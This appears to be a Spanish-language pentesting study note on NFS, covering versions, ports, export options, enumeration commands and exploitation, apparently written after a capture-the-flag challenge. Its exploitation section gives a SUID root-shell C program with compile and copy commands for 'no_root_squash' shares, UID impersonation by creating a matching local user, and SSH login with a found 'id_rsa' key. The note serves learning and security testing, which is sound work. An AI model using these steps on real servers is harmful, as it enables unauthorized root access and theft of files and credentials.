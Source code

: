 # 📂 NFS – Resumen para Pentesting

**NFS (Network File System)** permite acceder a sistemas de archivos remotos como si fueran locales.  
Funciona principalmente entre **Linux y Unix** y se basa en **ONC-RPC (SUN-RPC)**.  
NOTA: Me lo encontré en un challenge en un servidor windows.

---

## 🔑 Versiones principales
| Versión | Características |
|---------|----------------|
| **NFSv2** | Antiguo, sobre UDP. |
| **NFSv3** | Archivos de tamaño variable, mejor reporting de errores. |
| **NFSv4** | Stateful, ACLs, Kerberos, multipath, solo puerto **2049** (más seguro). |

---

## ⚙️ Puertos y protocolos
- **111/tcp,udp → rpcbind**  
- **2049/tcp,udp → nfs**  
- Basado en **UID/GID numéricos** (no nombres de usuario).  
- Los nombres en `ls -l` se resuelven **localmente** con `/etc/passwd`.  

👉 Si el servidor no tiene un usuario para un UID concreto, se muestra solo el número.  

---

## 🔐 Autenticación y permisos
- Autenticación básica con **UID/GID UNIX**.  
- **Problema:** cliente y servidor pueden tener **mappings distintos de UID/GID**.  
- Esto permite crear en el cliente un usuario con el mismo **UID** que un usuario en el servidor y así acceder a sus ficheros.  

---

## 📌 Opciones de configuración (`/etc/exports`)
Ejemplo:
```bash
/mnt/nfs  10.129.14.0/24(rw,sync,no_subtree_check)
```

### Opciones comunes
- `rw` → lectura y escritura  
- `ro` → solo lectura  
- `sync` / `async` → transferencia segura/rápida  
- `root_squash` → UID 0 (root) se asigna a `nobody` (seguro)  
- `no_root_squash` → UID 0 se mantiene como root (inseguro)  
- `secure` / `insecure` → restringir puertos <1024 o permitir >1024  

---

## ⚠️ Configuraciones peligrosas
- **`no_root_squash`** → el root del cliente puede crear archivos como root en el servidor → subir binarios **SUID root**.  
- **UID mappings inseguros** → cualquier usuario puede suplantar a otro creando un usuario local con el mismo UID.  
- **Archivos sensibles expuestos** (`id_rsa`, `shadow`, backups).  

---

## 🔎 Enumeración de NFS
Escaneo básico:
```bash
sudo nmap -p111,2049 -sV -sC <IP>
```

Scripts NSE para NFS:
```bash
sudo nmap --script nfs* -p111,2049 <IP>
```

Listar exports:
```bash
showmount -e <IP>
```

Montar share:
```bash
mkdir target-NFS
sudo mount -t nfs <IP>:/ ./target-NFS/ -o nolock
```

Desmontar:
```bash
sudo umount ./target-NFS
```

---

## 🚩 Explotación en Pentesting

### 1️⃣ `no_root_squash`
- Montas el share como root.  
- Creas un binario SUID con root como propietario:
  ```c
  #include <unistd.h>
  int main() { setuid(0); system("/bin/bash"); }
  ```
  ```bash
  gcc rootsh.c -o rootsh
  chmod +s rootsh
  cp rootsh /mnt/nfs/
  ```
- En la víctima, ese binario será **SUID root** → ejecución como root.  

---

### 2️⃣ Suplantación de usuarios por UID
- En el NFS ves un archivo con UID 2000:
  ```
  -rw-r--r-- 1 2000 2000  123 ago 18 14:20 secret.txt
  ```
- Creas un usuario con ese UID en tu cliente:
  ```bash
  sudo useradd -u 2000 attacker2000
  sudo passwd attacker2000
  su - attacker2000
  ```
- Ahora, montando el NFS, podrás leer/escribir archivos de UID 2000.  
- Incluso puedes subir una shell SUID con ese UID → la víctima la ejecutará como ese usuario.  

---

### 3️⃣ Archivos sensibles
Si en el share aparece algo como `id_rsa`:  
```bash
chmod 600 id_rsa
ssh -i id_rsa usuario@victima
```
👉 Acceso directo vía SSH como ese usuario.  

---

## ✅ Resumen práctico
- **`root_squash` activado:** protege contra root, pero aún puedes explotar UID mappings.  
- **`no_root_squash`:** permite subir binarios SUID root → escalada total.  
- **NFS solo entiende de UID/GID**, no de nombres → podemos “fabricar” usuarios con UID específicos para acceder a ficheros que no deberíamos.  

